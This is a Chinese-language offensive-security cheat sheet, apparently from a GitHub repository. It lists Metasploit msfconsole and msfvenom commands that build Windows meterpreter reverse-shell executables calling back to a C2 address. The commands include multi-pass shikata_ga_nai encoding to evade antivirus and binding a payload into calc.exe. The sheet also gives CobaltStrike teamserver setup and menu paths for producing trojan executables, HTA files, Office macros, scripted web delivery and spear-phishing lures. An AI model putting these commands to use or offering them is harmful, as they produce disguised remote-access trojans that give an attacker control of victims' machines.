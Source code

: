 ```shell
	--payload-options 列举payload的标准选项

```



```shell
msfconsole -x "use exploit/multi/handler;\set PAYLOAD windows/meterpreter/reverse_tcp;\set LHOST ${c2_ip};\set LPORT $c2_port;\exploit"

#裸马生成
msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=${c2_ip} LPORT=${c2_port} -o shell.exe

#单次编码
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=${c2_ip} LPORT=${c2_port} -i 3 -e x86/shikata_ga_nai -f exe -o shell.exe

#多次编码-1
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=${c2_ip} LPORT=${c2_port} -e x86/shikata_ga_nai -i 5 |msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw |msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -b '\x00' -o payload.exe
#多次编码-2
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp -i 3 -e x86/shikata_ga_nai -b '\x00' -f exe -o cmd.exe

#文件捆绑
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -x calc.exe -k -f exe -o shell.exe
```

### 2 CobaltStrike

```shell
#传一份cs到linux
chmod +x teamserver;
./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]

#本地登录到teamserver后，先配置listener:
ColbaltStrike>Listeners>Add ===> cs4有8种listener 及 cs3.x有9种listener
#再生成木马
Attacks>Packages>Windows Execuation=>2种exe2种dll

```

```cmd
#木马生成(CobaltStrike-Attacks)
### 可执行文件
Attacks>Packages>Windows Executable
./teamserver 192.168.44.128 bloodhound
### HTML程序
Attacks>Packages>HTML Application
### Office宏
Attacks>Packages>Micosoft Office Macro
### Payload Generator
Attacks>Packages>Payload Generator
### 简易恶意网站（常用于无文件攻击），powershell/bitsadmin/regsvr32/python
Attacks>Web Drive-by>Scripted Web Delivery
### 鱼叉式网络Spear Phish

```
